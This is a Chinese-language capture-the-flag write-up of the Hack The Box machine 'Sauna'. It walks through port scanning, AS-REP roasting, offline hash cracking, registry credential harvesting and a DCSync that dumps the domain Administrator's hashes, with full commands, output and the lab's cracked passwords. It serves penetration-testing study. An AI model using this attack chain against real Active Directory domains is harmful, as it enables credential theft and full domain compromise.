

### nmap 扫描

```
┌──(kali㉿kali)-[~/Desktop/HTB/Active Directory 101]
└─$ sudo nmap -sV -sC -p- --min-rate 10000 10.10.10.175 -o scan/Sauna 
[sudo] password for kali: 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-05-28 02:30 EDT
Nmap scan report for 10.10.10.175
Host is up (0.35s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Egotistical Bank :: Home
| http-methods: 
|_  Potentially risky methods: TRACE
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2022-05-28 13:31:10Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  unknown
49673/tcp open  unknown
49674/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49677/tcp open  unknown
49689/tcp open  unknown
49696/tcp open  unknown
Service Info: Host: SAUNA; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-05-28T13:31:47
|_  start_date: N/A
|_clock-skew: 7h00m01s
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required

Service detection performed. Please report any incorrect results a
```

### ASREPRoast

可以看到存在`web`端口，所以我们先从`web`入手，扫了下路径，并没有什么东西，但是在网站上，可以发现团队成员的名字。


可以使用 [工具](https://github.com/urbanadventurer/username-anarchy) 来生成一个用户名列表 

接着尝试`ASREPRoast`攻击，看有没有存在配置错误的用户

```
┌──(kali㉿kali)-[~/Desktop/HTB/Active Directory 101/Sauna]
└─$ impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt -format hashcat -dc-ip 10.10.10.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:885334f1032534ce3199b40cf0d36e97$a059a3d2c25a003b55950cd24108330401b1b74cd4f2f000af6729d684ab1aab04e674c1a0a788493b80fe9d9c45e1ecfe87c7c7d6df88c4cd3b8b85293ec5b86a3b646eb7ffd797e28b0e3353c962e644afcc911fe93482b3569ca22229aabe932e7e447ea0269fc249b740bdbf2bac20da9ed0c4ecd8259233f55b98ba9bf69fe48a69fd84f3d0cc8ba22be05a193a0627a366c33b56c6571873edd895d080074719572832436c45c7ef315b804c1cb9ca03060532a2169c9738cbb9237ffdd1083ad9a0f546a451a7683286d159491db9c6b22222d13405c205837a918dbfc5ba2e50909808d062df727139b4f31d93a28e6019f8f32f19a49688f56cbad7
[-] Kerberos SessionError: KDC_ERR_C_PRINCIPAL_UNKNOWN(Client not found in Kerberos database)

```

可以看到，用户`fsmith`存在错误配置，那么首先离线破解该用户的`HASH`

```
┌──(kali㉿kali)-[~/Desktop/HTB/Active Directory 101/Sauna]
└─$ hashcat -m 18200 --force -a 0 hashes /usr/share/wordlists/rockyou.txt

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:8c1666fba8c80605ed971ffccc2cb70b$56cc578db7bc97ec79bbcffeca851f44d4e163420df8a0ca12369a1b0216bf98c1bca4c22f10d114fab4d6e777348eb4c9747b926300a6ba56506129370a5905c82c93b23e2fa3e092e2a62843cb81320267e0b57d575d68081c23e85582a8c351b3fb653748789345ec842844ed97a364d96b5fdef45cb664bfacbae3c17caadaddb555bbd313e5b7b23c1ae086e4c61e6baa77aa695ddaa28e315044457e48db3762ddfb695ae816ece92b27d3b8dcba9fadf92bf0586fe1192f05c9d10b0b3912d5ca2eadfd1fa899f1898e40bd4214f0eae9981b82484b97683481612069931350de0bfb50c3a836038523e4a9611e6a01f7ca308871cd90c94cac6aae6b:Thestrokes23
```

使用`winrm`来登录服务器，并在当前目录下得到`flag`

### 信息收集 & 提权

```
┌──(kali㉿kali)-[~/go/bin]
└─$ ./windapsearch --domain EGOTISTICAL-BANK.LOCAL --dc 10.10.10.175 -u fsmith -p Thestrokes23 -m users                                                                         1 ⨯
dn: CN=Guest,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
cn: Guest
sAMAccountName: Guest

dn: CN=L Manager,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
cn: L Manager
sAMAccountName: svc_loanmgr
userPrincipalName: svc_loanmgr@EGOTISTICAL-BANK.LOCAL

dn: CN=Administrator,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
cn: Administrator
sAMAccountName: Administrator

dn: CN=Fergus Smith,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
cn: Fergus Smith
sAMAccountName: FSmith
userPrincipalName: FSmith@EGOTISTICAL-BANK.LOCAL

dn: CN=krbtgt,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL
cn: krbtgt
sAMAccountName: krbtgt

dn: CN=Hugo Smith,DC=EGOTISTICAL-BANK,DC=LOCAL
cn: Hugo Smith
sAMAccountName: HSmith
userPrincipalName: HSmith@EGOTISTICAL-BANK.LOCAL
```

从注册表中可以查询到登录的用户名和密码
```
Looking inside HKCU\Software\ORL\WinVNC3\Password                                                                                                                                   
Looking inside HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4/password                                                                                                                 
Looking inside HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\WinLogon                                                                                                           
    DefaultDomainName    REG_SZ    EGOTISTICALBANK                                                                                                                                  
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager                                                                                                                    
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!                                                                                                                         
Looking inside HKLM\SYSTEM\CurrentControlSet\Services\SNMP   
```

使用得到的账号密码进行登录，发现登录失败。从上面我们注意到，在注册表中找到的用户名为`svc_loanmanager`，而系统用户的用户名为`svc_loanmgr`，注册表中配置的[自动登录](https://docs.microsoft.com/zh-cn/troubleshoot/windows-server/user-profiles-and-logon/turn-on-automatic-logon)的用户名跟系统的并不一样。


这里换个用户名即可成功登录

通过`bloodhound`，可以看到用户`svc_loanmgr`拥有`GetChangesAll`权限，拥有这个权限，实际上就有了复制`DC`的权限，所以可以使用`dcsync`来获取域控的`HASH`


```
┌──(kali㉿kali)-[~/Desktop/HTB/Active Directory 101/Sauna]
└─$ impacket-secretsdump -dc-ip 10.10.10.175 EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.10.10.175 -just-dc-user Administrator
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
[*] Kerberos keys grabbed
Administrator:aes256-cts-hmac-sha1-96:42ee4a7abee32410f470fed37ae9660535ac56eeb73928ec783b015d623fc657
Administrator:aes128-cts-hmac-sha1-96:a9f3769c592a8a231c3c972c4050be4e
Administrator:des-cbc-md5:fb8f321c64cea87f
[*] Cleaning up... 

```


